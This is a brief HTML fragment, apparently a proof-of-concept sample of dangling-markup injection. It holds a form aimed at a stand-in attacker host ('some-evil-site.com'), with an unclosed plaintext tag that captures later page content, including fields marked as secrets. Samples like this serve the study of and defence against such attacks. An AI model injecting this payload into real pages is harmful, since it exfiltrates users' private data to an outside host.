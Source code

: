 <form action="https://some-evil-site.com"><button>Click</button><select name=steal><option><plaintext>
<!-- '"` --><!-- </textarea></xmp> --></option></form>
<form><input value=secret1><p>secret2</p></form>